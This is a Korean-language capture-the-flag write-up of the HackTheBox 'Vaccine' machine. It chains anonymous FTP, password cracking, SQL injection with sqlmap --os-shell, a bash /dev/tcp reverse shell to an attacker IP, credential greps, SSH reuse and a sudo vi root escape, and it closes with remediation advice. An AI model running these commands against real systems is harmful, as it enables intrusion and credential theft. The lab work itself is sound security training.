# Vaccine

## 개요

FTP 익명 접근으로 백업 파일을 획득하고, 압축 파일 크랙과 소스코드 분석을 통해 웹 애플리케이션에 로그인한 뒤 SQL 인젝션으로 OS 명령 실행 권한을 획득하는 머신이다. sqlmap의 `--os-shell` 기능으로 reverse shell을 획득하고, 웹 소스 파일에 하드코딩된 DB 크리덴셜로 SSH에 접속한다. 마지막으로 sudo 권한으로 실행 가능한 `vi`의 shell escape 기능을 이용해 root 권한을 획득한다. 약한 자격증명, 소스코드 노출, SQL 인젝션, 크리덴셜 재사용, sudo 오용이라는 다섯 가지 취약점이 하나의 흐름으로 연결되는 전형적인 Linux 웹 침투 흐름을 실습할 수 있다.

## 대상 정보

| 항목 | 내용 |
|------|------|
| 플랫폼 | HackTheBox Starting Point Tier 2 |
| 운영체제 | Linux (Ubuntu 19.10) |
| 개방 포트 | 21 (FTP), 22 (SSH), 80 (HTTP) |
| 주요 기술 스택 | vsftpd 3.0.3, Apache 2.4.41, PHP, PostgreSQL 11 |
| 취약점 | 익명 FTP 접근, ZIP 약한 패스워드, MD5 하드코딩, SQL 인젝션 (PostgreSQL), 크리덴셜 하드코딩 및 재사용, sudo + vi shell escape |

---

## Enumeration

### 1. 포트 스캔

nmap으로 대상 서버의 열린 포트와 서비스 버전을 확인한다.

```bash
nmap -sC -sV $IP
```



21(FTP, vsftpd 3.0.3), 22(SSH), 80(HTTP, Apache 2.4.41) 세 포트가 열려 있다. nmap 스크립트 결과에서 FTP가 익명 로그인을 허용하고 있으며 `backup.zip` 파일이 존재함을 바로 확인할 수 있다. 크리덴셜이 없는 상태에서 SSH와 HTTP보다 익명 접근이 가능한 FTP를 먼저 분석하는 것이 자연스러운 순서다.

---

### 2. FTP 익명 접근 및 백업 파일 획득

FTP에 익명 계정으로 접속해 파일을 내려받는다.

```bash
ftp $IP
# Name: anonymous
# Password: (공백)
```





```bash
get backup.zip
```



익명 로그인에 성공하고 `backup.zip`을 로컬로 내려받았다. FTP 서버가 인증 없이 파일을 제공하는 구조로, 내부 백업 파일이 외부에 그대로 노출되어 있다.

---

### 3. ZIP 패스워드 크랙

내려받은 ZIP 파일은 패스워드로 보호되어 있다. `zip2john`으로 해시를 추출하고 John the Ripper로 크랙한다.

```bash
zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```





패스워드 `741852963`을 획득했다. 순수 숫자열로 구성된 약한 패스워드라 rockyou 워드리스트에서 즉시 크랙됐다.

```bash
unzip backup.zip
```



`index.php`와 `style.css`가 추출됐다. `style.css`는 공격에 불필요하며, `index.php` 분석에 집중한다.

---

### 4. 소스코드 분석 — MD5 해시 크랙

추출한 `index.php`의 로그인 로직을 확인한다.

```bash
cat index.php
```



`$_POST['username'] === 'admin'` 하드코딩, `md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3"` 두 가지 취약점이 확인됐다. MD5는 솔트 없이 적용되었으므로 레인보우 테이블이나 사전 공격으로 원문 복구가 가능하다. 해시를 john으로 크랙한다.

```bash
echo 'admin:2cb42f8734ea607eefed3b70af13bbd3' > md5hash.txt
```


```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt md5hash.txt
```



패스워드 `qwerty789`를 획득했다. 로그인 크리덴셜: `admin / qwerty789`

---

### 5. 웹 로그인 및 SQL 인젝션 확인

획득한 크리덴셜로 웹 애플리케이션에 로그인한다. 로그인 후 접근되는 `dashboard.php`의 검색 기능에서 SQL 인젝션 여부를 수동으로 테스트했다.

`' OR 1=1#` 입력 시 전체 레코드가 반환됐다.



이어서 `' OR 1=1#` 에러를 통해 DBMS가 PostgreSQL임을 확인했다.



에러 메시지에서 `Select * from cars where name ilike '%...%'` 쿼리 구조와 함께 `unterminated quoted string`이 노출됐다. PostgreSQL은 `#` 주석을 지원하지 않으며 `--`를 사용해야 한다. `' AND 1=2-- -` 입력 시 빈 결과가 반환되어 boolean-based SQL 인젝션 동작을 확인했다.



---

### 6. sqlmap — DB 열거 및 OS 쉘 획득

수동 테스트로 인젝션 가능성을 확인했으므로 sqlmap으로 자동화한다. 인증된 세션이 필요하므로 브라우저 DevTools에서 `PHPSESSID` 쿠키 값을 먼저 확보한다.



```bash
sqlmap -u "http://$IP/dashboard.php?search=test" \
--cookie="PHPSESSID=r47idn10lk4cedartg059157hg" \
--dbs
```





PostgreSQL 확인, DB 3개(`information_schema`, `pg_catalog`, `public`) 중 `public`이 애플리케이션 DB다. 다음으로 OS 명령 실행을 시도한다.

```bash
sqlmap -u "http://$IP/dashboard.php?search=test" \
--cookie="PHPSESSID=r47idn10lk4cedartg059157hg" \
--os-shell
```





첫 시도에서 `current session user is not a database administrator` 경고가 출력됐다. PostgreSQL의 `COPY ... FROM PROGRAM` 명령은 DBA 권한이 필요하다. `--risk=3 --level=5` 옵션으로 더 광범위한 페이로드를 시도한다.

```bash
sqlmap -u "http://$IP/dashboard.php?search=test" \
--cookie="PHPSESSID=r47idn10lk4cedartg059157hg" \
--os-shell \
--risk=3 \
--level=5
```





`retrieved: '1'` — DBA 권한 확인, `COPY ... FROM PROGRAM` 방식으로 `os-shell>` 프롬프트 진입에 성공했다.

---

### 7. Reverse Shell 획득

`os-shell`은 인터랙티브 환경이 아니므로 reverse shell로 전환한다. 로컬에서 netcat 리스너를 열고 os-shell에서 bash reverse shell을 실행한다.

```bash
nc -lvnp 4444
```



```
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.167/4444 0>&1'
```




`postgres@vaccine` 쉘 획득. `www-data`가 아닌 `postgres` 유저로 착지한 것은 sqlmap이 PostgreSQL 프로세스 컨텍스트에서 명령을 실행했기 때문이다.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```


TTY 업그레이드 후 sqlmap 세션이 타임아웃으로 끊기는 것은 정상 동작이다. reverse shell로 os-shell의 연결이 점유되기 때문이다.

---

### 8. 크리덴셜 탈취

현재 권한은 `postgres`로 제한적이다. 권한 상승을 위해 웹 소스 파일에서 크리덴셜을 탐색한다. DB 연결 파일에는 크리덴셜이 하드코딩되는 경우가 많으므로 `/var/www` 하위에서 패스워드 관련 문자열을 grep한다.

```bash
cat ~/.bash_history
cat ~/.psql_history
cat ~/.pgpass
grep -Rni "pass\|password\|postgres" /var/www 2>/dev/null
```



`/var/www/html/dashboard.php:41: $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");`

패스워드 `P@s5w0rd!`를 획득했다. 이 패스워드가 시스템 계정에도 재사용되는지 SSH 접속으로 확인한다.

---

### 9. SSH 접속

```bash
ssh postgres@$IP
```



접속에 성공했다. DB 크리덴셜이 시스템 계정에 그대로 재사용된 경우다.

---

### 10. sudo 권한 확인 및 vi shell escape

로그인 후 sudo 권한을 확인한다.

```bash
echo 'P@s5w0rd!' | sudo -S -l
```

`postgres` 계정이 `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf` 를 실행할 수 있음이 확인됐다. sudo 권한이 특정 파일로 제한되어 있지만, `vi` 자체가 `:!/bin/sh` 명령으로 shell escape가 가능하므로 제한이 무의미하다.

```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```





vi가 열리면 command mode에서 shell escape 명령을 입력한다.

```
:!/bin/sh
```





`# whoami → root`. vi가 sudo 권한으로 실행됐으므로 spawn된 쉘도 root 권한을 상속한다.

---

### 11. Flag 획득

```bash
cat /root/root.txt
cat /var/lib/postgresql/user.txt
```





---

## 취약점 원인 분석

이 머신은 다섯 가지 취약점이 연쇄적으로 연결된 구조다.

**1단계 - 익명 FTP 접근**
vsftpd가 익명 로그인을 허용하고 있으며 내부 백업 파일이 FTP 루트에 그대로 노출되어 있다. FTP 익명 접근은 운영 환경에서 비활성화해야 하며, 백업 파일은 외부 접근 가능한 경로에 보관하지 않아야 한다.

**2단계 - 소스코드 노출 및 MD5 하드코딩**
백업 파일에 웹 애플리케이션 소스가 포함되어 있었고, 로그인 로직에서 패스워드를 솔트 없이 MD5로 해시해 하드코딩했다. MD5는 암호화 해시 함수로 적합하지 않으며, 크리덴셜은 소스코드가 아닌 별도의 인증 시스템에서 관리해야 한다.

**3단계 - SQL 인젝션**
`dashboard.php`의 검색 파라미터가 사용자 입력을 검증 없이 SQL 쿼리에 직접 삽입했다. Prepared Statement를 사용하면 SQL 인젝션을 원천 차단할 수 있다. PostgreSQL의 경우 DBA 권한이 부여된 계정이 웹 애플리케이션 DB 계정으로 사용되면 `COPY FROM PROGRAM`을 통한 OS 명령 실행으로 이어진다. DB 계정 권한을 최소화해야 한다.

**4단계 - 크리덴셜 하드코딩 및 재사용**
DB 연결 크리덴셜이 `dashboard.php`에 평문으로 하드코딩되어 있었고, 동일한 패스워드가 시스템 계정에 재사용됐다. 크리덴셜은 환경변수나 시크릿 관리 도구로 관리해야 하며, DB 계정과 시스템 계정의 패스워드는 반드시 분리해야 한다.

**5단계 - sudo + vi shell escape**
`sudo` 권한을 특정 명령과 파일로 제한했지만 vi 자체가 shell escape 기능을 내장하고 있어 제한이 무효화됐다. GTFOBins에 등재된 바이너리는 sudo 허용 목록에서 제외해야 하며, 설정 파일 편집이 필요하다면 vi 대신 `sudoedit`를 사용하는 것이 안전하다.

---

## 실제 환경에서의 위험성

이 머신에서 가장 현실적인 위협은 크리덴셜 재사용과 SQL 인젝션의 조합이다. DB 계정이 DBA 권한을 가지고 있고 SQL 인젝션이 존재할 경우, 데이터 탈취를 넘어 서버의 OS 명령 실행까지 도달할 수 있다. 실제 침해 사고에서 이 조합은 반복적으로 등장하며, SQL 인젝션 단독보다 훨씬 높은 피해 규모로 이어진다.

FTP 익명 접근으로 내부 백업 파일이 노출되는 사례도 실무에서 자주 발견된다. 백업 파일에는 소스코드, 설정 파일, DB 덤프 등 민감한 정보가 포함되는 경우가 많으며, 이를 통한 크리덴셜 탈취는 초기 침투 비용을 크게 낮춘다.

---

## 핵심 정리

| 항목 | 내용 |
|------|------|
| 초기 접근 경로 | FTP 익명 접근 → backup.zip → 소스코드 분석 |
| 웹 로그인 | ZIP 크랙 → MD5 크랙 → admin / qwerty789 |
| OS 명령 실행 | SQL 인젝션 → sqlmap --os-shell (PostgreSQL COPY FROM PROGRAM) |
| 크리덴셜 획득 | dashboard.php 하드코딩 → SSH 재사용 (postgres / P@s5w0rd!) |
| 권한 상승 방법 | sudo vi → :!/bin/sh shell escape |
| 핵심 교훈 | FTP 익명 접근 비활성화, DB 계정 권한 최소화, 크리덴셜 분리 관리, sudo 허용 목록에서 GTFOBins 바이너리 제외 |
